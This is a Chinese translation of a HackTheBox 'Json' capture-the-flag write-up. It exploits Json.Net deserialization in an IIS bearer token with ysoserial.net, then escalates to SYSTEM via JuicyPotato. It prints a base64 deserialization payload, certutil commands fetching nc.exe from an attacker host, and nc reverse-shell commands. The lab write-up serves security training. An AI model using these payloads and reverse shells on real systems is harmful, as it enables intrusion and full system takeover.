# HacktheBox — Json

> 原文：<https://infosecwriteups.com/hackthebox-json-5c91db6b67ed?source=collection_archive---------0----------------------->



[https://www.hackthebox.eu/home/machines/profile/210](https://www.hackthebox.eu/home/machines/profile/210)

这是一篇关于我如何从 HacktheBox 解决 Json 的文章。

[黑盒子](http://hackthebox.eu)是一个在线平台，你可以在这里练习渗透测试技能。

# 总结:

```
An IIS Server is vulnerable to JSON de-serialization using the client's HTTP Authentication Bearer field, leading to code execution. For root, I went the unintended route by using JuicyPotato since SEImpersonatePrivilege is enabled plus this is a Windows 2012 R2 Datacenter machine.
```

# 扫描:

我首先运行 nmap 扫描:

```
nmap -sV -sC -oA nmap/initial 10.10.10.158
```



开放端口是 21、80、SMB 和 RPC 端口。它还告诉我们，操作系统是 Windows Server 2008 R2，这很奇怪。我首先检查 80 端口上的网页。

## /login.html



在尝试基本凭证之前，我首先检查了源代码，发现它很有趣，因为我看到了 C#或其他语言中通常使用的文本。网族。



我尝试使用凭证 admin:admin 并使用 Burp 捕获请求:



注意，它提交给端点/api/token，Referer 字段是/login.html，Content-Type 是 application/json。

检查响应，通常在 API 中看到的是 202。HTTP 状态`202`表示请求已被接受进行处理，但处理尚未完成。



另请注意，响应的标头包括以下内容:

```
Server: Microsoft-IIS/8.5
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
Oauth2= eyJJ..
```

Oauth2 的值看起来像一个 JWT，由 base64 字符组成。解码结果为以下值:


密码字段看起来像 md5 散列。在字符串 admin 上运行 md5sum，我们可以验证就是它。



登录页面如下所示。



## 剥削:

单击各种链接并捕获请求后，有趣的是单击仪表板链接。

选择仪表板选项时，请求如下所示:



还要注意，承载字段与 OAuth2 相同。因为它基本上是用 base64 编码的 JSON 值，由 C#服务器解释，所以我寻找与这些事件相关的漏洞或攻击媒介。大多数链接暗示了 JSON 反序列化攻击。



经过研究，大多数文章建议使用 ysoserial.net 项目，这是一个反序列化有效负载生成器。[https://github.com/pwntester/ysoserial.net](https://github.com/pwntester/ysoserial.net)。在此之前，我尝试检查如果我在 Bearer 字段中放置的值不是 Json 格式，服务器如何响应。

```
root@kali:~/htb/boxes/Json-10.10.10.158# echo -n "test" | base64
dGVzdA==
```

发送请求:



服务器的响应提到了“无法反序列化 Json.Net 对象”。


然后我用 ysoserial.net。在 Windows 机器上运行这个程序，我可以使用小工具 ObjectDataProvider，因为它的一个格式化程序是 Json.Net，上面提到服务器不能反序列化 Json.Net 对象。这表明它希望数据以 Json.Net 的格式发送。我首先尝试对我的 IP 执行 ping，输出应该是 base64:

```
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "ping -n 2 10.10.14.81"
```

base64 中 ysoserial 的输出:

```
ew0KICAgICckdHlwZSc6J1N5c3RlbS5XaW5kb3dzLkRhdGEuT2JqZWN0RGF0YVByb3ZpZGVyLCBQcmVzZW50YXRpb25GcmFtZXdvcmssIFZlcnNpb249NC4
wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj0zMWJmMzg1NmFkMzY0ZTM1JywgDQogICAgJ01ldGhvZE5hbWUnOidTdGFydCcsDQogIC
AgJ01ldGhvZFBhcmFtZXRlcnMnOnsNCiAgICAgICAgJyR0eXBlJzonU3lzdGVtLkNvbGxlY3Rpb25zLkFycmF5TGlzdCwgbXNjb3JsaWIsIFZlcnNpb249N
C4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5JywNCiAgICAgICAgJyR2YWx1ZXMnOlsnY21kJywnL2Mg
cGluZyAtbiAyIDEwLjEwLjE0LjgxJ10NCiAgICB9LA0KICAgICdPYmplY3RJbnN0YW5jZSc6eyckdHlwZSc6J1N5c3RlbS5EaWFnbm9zdGljcy5Qcm9jZXN
zLCBTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5J30NCn0=
```

如果您想知道它在原始输出中的样子:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKey
Token=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e
089',
        '$values':['cmd','/c ping -n 2 10.10.14.81']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77
a5c561934e089'}
}
```

我现在将它粘贴到不记名字段:



服务器出错:



但是在我的 tcpdump 嗅探器上，我从机器上得到一个 ping(如果你不运行嗅探器，你将无法识别你是否得到了 ping ),这验证了我们有代码执行。


我现在生成一个有效负载，它将 netcat 二进制文件下载到我可以写入的一个目录中。其他位置可以在这里找到:[https://github . com/API 0 cradle/UltimateAppLockerByPassList/blob/master/Generic-applockerbypasss . MD](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)

```
ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "certutil.exe -urlcache -sp
lit -f http://10.10.14.81/nc.exe C:/Windows/System32/spool/drivers/color/nc.exe"
```

在我的简单 HTTP 服务器上，我收到一个请求:



现在，我生成一个有效负载，它将连接到我的反向 shell:

```
ysoserial.exe -f Json.Net -g ObjectDataProvider -o base64 -c "C:/Windows/System32/spool/drivers/color/nc.exe 10.10.14.81 9001 -e cmd.exe"
```

在我的监听器上，我得到一个 json 形式的 shell。



运行 whoami /all，我可以看到 SeImpersonatePrivilege 已启用。也就是说我以后可以试着用 JuicyPotato。



有了这个访问权限，我现在可以读取 user.txt 了



```
C:\Users\userpool>type Desktop\user.txt
type Desktop\user.txt
34459a01f50050dc410db0...
```

## 权限提升:

我选择了使用 JuicyPotato 的非预期路线。JuicyPotato 是另一个本地权限提升工具，从 Windows 服务帐户到 NT AUTHORITY\SYSTEM。它基于 RottenPotato，其背后的理论根据页面[https://fogloversecurity . com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/](https://foxglovesecurity.com/2016/09/26/rotten-potato-privilege-escalation-from-service-accounts-to-system/)为:

1.  诱骗“NT AUTHORITY\SYSTEM”帐户通过 NTLM 向我们控制的 TCP 端点进行身份验证。
2.  中间人身份验证尝试(NTLM 中继)在本地协商“NT AUTHORITY\SYSTEM”帐户的安全令牌。这是通过一系列 Windows API 调用完成的。
3.  模拟我们刚刚协商好的令牌。只有当攻击者的当前帐户拥有模拟安全令牌的权限时，才能做到这一点。这通常适用于大多数服务帐户，而不适用于大多数用户级帐户。

JuicyPotato 可以在这里找到:【https://github.com/ohpe/juicy-potato 

我首先将二进制文件传输到一个我可以写入的目录，使用 certutil 传输它:

```
C:\Users\userpool\Music>certutil.exe -urlcache -split -f [http://10.10.14.81/j.exe](http://10.10.14.81/j.exe) j.exe
```

检查它是否可以运行:



我需要的是以下旗帜:

```
-t (try both), -p (any program we want to run as system) , -l (which can be anything) , and -c {clsid}
```

因为 juicypotato 需要依赖于 Windows 操作系统的 clsid。我运行 systeminfo，看到这是一个 Windows Server 2012 R2 数据中心。请注意，根据我们的 nmap 扫描，它被识别为 Windows 2008。



我可以在这里寻找可能的 CLSID:[http://ohpe . it/juicy-potato/CLSID/Windows _ Server _ 2012 _ data center/](http://ohpe.it/juicy-potato/CLSID/Windows_Server_2012_Datacenter/)。

我使用的第一个 CLSID as 系统是{ e 60687 f 7–01a 1–40aa-86ac-db 1 CBF 673334 }。然后，我使用 certutil 传输一个. bat 文件，它基本上包含:

```
C:/Windows/System32/spool/drivers/color/nc.exe 10.10.14.81 9003 -e cmd.exe
```



运行 juicypotato:

```
.\j.exe -t * -l 9001 -p c:\Users\userpool\Music\test.bat -c {e60687f7-01a1-40aa-86ac-db1cbf673334}
```



我得到一个外壳作为 nt authority\system。我现在可以阅读 root.txt:

```
C:\Users\superadmin>type Desktop\root.txt
type Desktop\root.txt
3cc85d1bed2ee84a...
```

所以我就是这么解决 Json 的。我希望你能从中学到一些东西。感谢阅读我的文章！干杯！🍺

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)